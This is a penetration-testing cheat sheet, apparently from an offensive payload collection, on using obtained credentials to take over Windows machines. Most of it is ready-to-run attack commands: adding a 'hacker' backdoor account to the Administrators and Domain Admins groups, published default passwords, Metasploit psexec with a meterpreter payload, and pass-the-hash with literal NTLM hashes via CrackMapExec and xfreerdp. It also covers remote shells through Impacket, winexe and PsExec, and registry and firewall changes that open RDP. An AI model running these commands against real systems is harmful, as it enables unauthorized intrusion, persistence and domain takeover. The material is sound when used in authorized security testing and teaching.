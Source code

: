 # Windows - Using credentials

## Summary

* [TIPS](#tips)
    * [TIP 1 - Create your credential](#tip-1-create-your-credential)
    * [TIP 2 - Retail Credential](#tip-2-retail-credential)
    * [TIP 3 - Sandbox Credential - WDAGUtilityAccount](#tip-3-sandbox-credrential-wdagutilityaccount)
* [Metasploit](#metasploit)
    * [Metasploit - SMB](#metasploit-smb)
    * [Metasploit - Psexec](#metasploit-psexec)
* [Crackmapexec](#crackmapexec)
* [Winexe](#winexe)
* [Psexec.py / Smbexec.py / Wmiexec.py](#psexec.py---smbexec.py---wmiexec.py)
* [PsExec - Sysinternal](#psexec-sysinternal)
* [RDP Remote Desktop Protocol](#rdp-remote-desktop-protocol)
* [Netuse](#netuse)
* [Runas](#runas)

## TIPS

### TIP 1 - Create your credential

```powershell
net user hacker hacker1234* /add
net localgroup administrators hacker /add
net localgroup "Remote Desktop Users" hacker /add # RDP access
net localgroup "Backup Operators" hacker /add # Full access to files
net group "Domain Admins" hacker /add /domain
```

Some info about your user

```powershell
net user /dom
net user /domain
```

### TIP 2 - Retail Credential 

Retail Credential [@m8urnett on Twitter](https://twitter.com/m8urnett/status/1003835660380172289)

when you run Windows in retail demo mode, it creates a user named Darrin DeYoung and an admin RetailAdmin

```powershell
Username: RetailAdmin
Password: trs10
```

### TIP 3 - Sandbox Credential - WDAGUtilityAccount

WDAGUtilityAccount - [@never_released on Twitter](https://twitter.com/never_released/status/1081569133844676608)

Starting with Windows 10 version 1709 (Fall Creators Update), it is part of Windows Defender Application Guard

```powershell
\\windowssandbox
Username: wdagutilityaccount
Password: pw123
```


## Metasploit

### Metasploit - SMB

```c
use auxiliary/scanner/smb/smb_login  
set SMBDomain DOMAIN  
set SMBUser username
set SMBPass password
services -p 445 -R  
run
creds
```

### Metasploit - Psexec

Note: the password can be replaced by a hash to execute a `pass the hash` attack.

```c
use exploit/windows/smb/psexec
set RHOST 10.2.0.3
set SMBUser username
set SMBPass password
set PAYLOAD windows/meterpreter/bind_tcp
run
shell
```

## Crackmapexec

```python
git clone https://github.com/byt3bl33d3r/CrackMapExec.github
python crackmapexec.py 10.9.122.0/25 -d DOMAIN -u username -p password
python crackmapexec.py 10.10.10.10 -d DOMAIN -u username -p password -x whoami
# pass the hash
cme smb 172.16.157.0/24 -u administrator -H 'aad3b435b51404eeaad3b435b51404ee:5509de4ff0a6eed7048d9f4a61100e51' --local-auth
```

## Winexe 

Integrated to Kali

```python
winexe -U DOMAIN/username%password //10.10.10.10 cmd.exe
```

## Psexec.py / Smbexec.py / Wmiexec.py 

from Impacket

```python
git clone https://github.com/CoreSecurity/impacket.git
python psexec.py DOMAIN/username:password@10.10.10.10
python smbexec.py DOMAIN/username:password@10.10.10.10
python wmiexec.py DOMAIN/username:password@10.10.10.10

# psexec.exe -s cmd
# switch admin user to NT Authority/System
```

## PsExec - Sysinternal

from Windows - [Sysinternal](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)

```powershell
PsExec.exe  \\ordws01.cscou.lab -u DOMAIN\username -p password cmd.exe
PsExec.exe  \\ordws01.cscou.lab -u DOMAIN\username -p password cmd.exe -s  # get System shell
```

## RDP Remote Desktop Protocol 

Abuse RDP protocol to execute commands remotely with [SharpRDP](https://github.com/0xthirteen/SharpRDP)

```powershell
SharpRDP.exe computername=target.domain command="C:\Temp\file.exe" username=domain\user password=password
```

Or connect remotely with `rdesktop`

```powershell
rdesktop -d DOMAIN -u username -p password 10.10.10.10 -g 70 -r disk:share=/home/user/myshare
rdesktop -u username -p password -g 70 -r disk:share=/tmp/myshare 10.10.10.10
# -g : the screen will take up 70% of your actual screen size
# -r disk:share : sharing a local folder during a remote desktop session 
```

Note: you may need to enable it with the following command

```powershell
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0x00000000 /f
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
```

or with psexec(sysinternals)

```powershell
psexec \\machinename reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
```

or with crackmapexec

```powershell
crackmapexec 192.168.1.100 -u Jaddmon -H 5858d47a41e40b40f294b3100bea611f -M rdp -o ACTION=enable
```

or with Metasploit

```powershell
run getgui -u admin -p 1234
```

or with xfreerdp 

```powershell
xfreerdp /u:offsec /d:win2012 /pth:88a405e17c0aa5debbc9b5679753939d /v:10.0.0.1 # pass the hash works for Server 2012 R2 / Win 8.1+
xfreerdp -u test -p 36374BD2767773A2DD4F6B010EC5EE0D 192.168.226.129 # pass the hash using Restricted Admin, need an admin account not in the "Remote Desktop Users" group.
xfreerd /u:runner /v:10.0.0.1 # password will be asked
```

## Netuse 

Windows only

```powershell
net use \\ordws01.cscou.lab /user:DOMAIN\username password
C$
```

## Runas 

```powershell
runas /netonly /user:DOMAIN\username "cmd.exe"
runas /noprofil /netonly /user:DOMAIN\username cmd.exe
```

## References

- [Ropnop - Using credentials to own Windows boxes](https://blog.ropnop.com/using-credentials-to-own-windows-boxes/)
- [Ropnop - Using credentials to own Windows boxes Part 2](https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/)
- [Gaining Domain Admin from Outside Active Directory](https://markitzeroday.com/pass-the-hash/crack-map-exec/2018/03/04/da-from-outside-the-domain.html)
